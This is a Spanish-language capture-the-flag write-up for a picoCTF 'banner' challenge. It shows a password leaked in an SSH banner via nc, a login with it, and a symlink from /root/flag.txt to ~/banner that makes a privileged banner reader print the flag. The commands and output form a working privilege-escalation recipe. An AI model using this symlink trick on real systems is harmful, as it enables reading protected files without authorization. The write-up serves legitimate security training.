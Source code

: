 ## Description

Can you abuse the banner?

The server has been leaking some crucial information on `tethys.picoctf.net 58334`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 62033`. From the above information abuse the machine and find the flag in the /root directory.


## Hint

1. Do you know about symlinks?
2. Maybe some small password cracking or guessing

## Solution

La contraseña se obtiene al conectarse al servidor que ha estad filtrándose: 

```
nc tethys.picoctf.net 57125

Salida: SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Con la contraseña que se ha recibido me conecto al servidor: 

```
┌──(lalosan㉿lalosan)-[~/exam1p1]
└─$ nc tethys.picoctf.net 62033
*************************************
**************WELCOME****************
*************************************
what is the password? 
My_Passw@rd_@1234}
```

Contesto las siguientes preguntas para acceder al shell:

```
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

Ahora debemos ir al archivo de la bandera que se encuantr naen el cd/ root. Y observar si podemos leerlo.

```
player@challenge:/root$ cat flag 
cat flag 
cat: flag: No such file or directory
player@challenge:/root$ cat flag.txt    
cat flag.txt
cat: flag.txt: Permission denied

```

Se observa que no tenemos permiso para ver el archivo flag.txt. En las pistas nos dice que usamos los enlaces simbólicos, enlazando la flag para que ocupe el lugar del banner.

```
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
player@challenge:/root$ cat banner
cat banner
cat: banner: No such file or directory

```

Nos desconectamos y nos volvemos a conectar.

```
┌──(lalosan㉿lalosan)-[~/exam1p1]
└─$ nc tethys.picoctf.net 60860
	picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```
La aplicación estaba leyendo el banner desde el directorio home, por lo tanto se pude asumir que el programa tenía privilegios para leer el archivo al enlazarnos simbólicamente.